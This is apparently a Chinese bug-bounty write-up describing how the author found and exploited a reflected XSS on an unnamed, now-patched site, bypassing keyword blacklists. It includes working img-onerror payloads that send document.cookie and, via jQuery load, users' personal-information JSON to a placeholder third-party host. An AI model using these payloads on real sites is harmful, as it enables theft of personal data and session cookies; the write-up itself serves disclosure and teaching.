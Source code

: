 前言：这是记录的前几天挖到的一个反射型xss漏洞，也是我在补天平台挖到的第一个专属src漏洞，详细的站点这里就不透露了，虽然目前查看了一下原漏洞已经被修补了。

1、挖掘的起点源于对某页面url中title参数的测试，该参数提交后被反射回来

```php
<span class="brand_left_txt1" id="city">title</span>
```

2、测试符号

站点未对&lt;&gt;;='"(){}进行过滤或者转义处理。（事实证明，我高兴早了~）

3、测试script标签

script被替换为了\[removed\]进行占位，尝试了大小写混杂，无效

4、其它标签

&lt;img src="<https://www.baidu.com/img/flexible/logo/pc/result.png>"&gt;

- 结果是ok的，在当前页面加载显示了百度的logo

5、尝试利用标签的属性和事件

这里有两个注意点：

1）如何触发事件

这里将src写为一个错误的地址，即可触发onerror事件

2）如何写事件

在这里，第一个难点是对alert、write等方法名进行了转换，转换为\[removed\]

然后转换思路，通过赋值的形式来利用js

6、尝试发送cookie到第三方站点

> 这里的第三方站点在测试时可以是任意的，而如果是实际攻击，替换为攻击者的站点即可

1）问题1：常规的转向行不通

网站对window、location等几个关键字也进行了替换，被替换为\[removed\]。

该问题的解决方案是不进行重定向，而是对img标签的this.src属性进行赋值

```html
<img src="错误的路径" onerror="this.src=第三方网站?cookie="+document.cookie>
```

当img的src为错误的路径，会触发onerror事件，在事件内为this.src属性赋值，该标签会重新进行请求，这样就将实现了将信息发送出去

2）问题2：关键cookie设置了httpOnly标志，无法通过js获取  
无法解决

7、提升利用价值

到这一步，在重重封锁下实现了对第三方站点发送信息，并且摸清了网站大致的保护思路。但是无法发送有效的cookie，基本没有利用价值。

在探索过程中，发现在登录后可以请求个人信息json，里面有身份证、姓名、手机号等等信息，并且潜在的可以请求头像、经历等信息。

利用思路：将个人信息发送到第三方站点，通过ajax请求信息，然后写到当前页面元素的内容中，再取出内容赋值给一个变量，最后将变量拼接到this.src属性中发送到第三方站点

问题：网站对function关键字也进行了转换，无法实现js的ajax

8、jquery

发现网站已经加载了jquery  
1）通过jquery的load方法请求个人信息json  
2）将json信息写入当前页面的某个元素的内容  
3）再获取该元素的内容赋值到变量中  
4）将变量拼接到this.src的路径中发送出去

```php
<img src="/img/b" onerror="$('footer').load('json请求接口');a=$('footer').html();this.src='第三方站点?info='+a">
```

8、后续

从网络监听来看，个人数据是被发送到第三方网站了的。但并不是很完美。

load方法是异步请求的json数据，因此变量a在前几次获取footer的内容时，并不能获取到json数据，this.src赋值相对于img标签来说仍然是一个坏的请求，所以会不断触发onrrer事件，在几次之后才能够发送真正需要的个人json数据。

该过程对于用户，即被攻击者来说，浏览器一直没有加载到想要的图片资源并且触发onerror，会不断刷新，容易引起察觉。

9、总结

该次渗透过程，算是一个非常大的突破。对于XSS漏洞的挖掘有了更深入的看法，同时也是对自我能力的肯定。

1）挖web漏洞，必须百分之两百的掌握html/js/jquery/ajax/json等前端知识，以及http协议。

2）思路非常重要，既要熟练掌握基本的挖掘思路，也要敢于去不断创新，大胆的猜。没有想象力就没有突破

3）坚持，不要放弃。本次测试，前后断断续续经历了大致3天的时间，不断想，不断学，不断测试，最后测试ok，进行了提交。

最后提一点，黑名单对XSS真的不行，最好还是进行转义处理